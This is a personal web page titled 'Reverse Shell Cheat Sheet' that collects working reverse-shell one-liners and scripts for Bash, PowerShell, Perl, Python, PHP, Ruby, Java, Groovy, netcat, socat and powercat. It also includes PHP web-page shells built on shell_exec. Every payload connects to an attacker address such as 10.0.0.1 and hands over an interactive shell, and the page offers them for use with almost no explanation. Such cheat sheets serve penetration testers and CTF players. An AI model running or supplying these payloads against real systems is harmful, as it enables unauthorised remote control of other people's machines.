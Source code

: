 _[<-- Home](https://flast101.github.io)_

# Reverse Shell Cheat Sheet
You can find them in a lot of places. Here are the one I could find here and there.

## One-liners

**Bash**

```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```


**PowerShell** 

```
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -Name System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```


**Perl**

```
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

**Python**

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

**PHP**

```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```


**Ruby**

```
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```


**Telnet**

```
telnet localhost 443 | /bin/sh | telnet localhost 444
```

**Java**

```
r = Runtime.getRuntime(); p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/1234;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[]); p.waitFor();
```

**Xterm**

```
xterm -display 10.0.0.1:1
```

* * * 


## PHP Web Pages

**Linux**
~~~
<?php echo shell_exec("/bin/bash -c 'bash -i >& /dev/tcp/10.0.0.1/1234 0>&1'")?>
~~~

**Windows**

```
<?php echo shell_exec("powershell -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -Name System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"")?>
```

* * *

## Tools

**Netcat**

```
nc -e /bin/sh 10.0.0.1 1234
```

**Netcat without -e #1**

```
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.0.0.1 1234 > /tmp/f
```

**Netcat without -e #2**

```
nc localhost 443 | /bin/sh | nc localhost 444
```
 
**Socat**

```
user@ubuntu:~$ socat - TCP4:10.0.0.1:4444 EXEC:'/bin/bash -li'
C:\> socat TCP4:10.0.0.1:1234 EXEC:'cmd.exe'
```


**Powercat**

```
powercat -c 10.0.0.1 -p 1234 -e cmd.exe
```

* * *
## Others

**Powershell**

```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',1234);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
{
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush();
}
$client.Close();
```


**Python**

```python
#!/usr/bin/env python
import socket
import subprocess
import os

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.119.225",4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

**Groovy**

```groovy
String host="10.0.0.1";
int port=1234;
String cmd="/bin/sh";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

**PHP**

The very good Pentestmonkey [php reverse shell](https://github.com/flast101/reverse-shell-cheatsheet/blob/master/php-reverse-shell.php).


_[<-- Home](https://flast101.github.io)_

<!-- Global site tag (gtag.js) - Google Analytics -->
<script async src="https://www.googletagmanager.com/gtag/js?id=UA-173692234-1"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments);}
  gtag('js', new Date());

  gtag('config', 'UA-173692234-1');
</script>



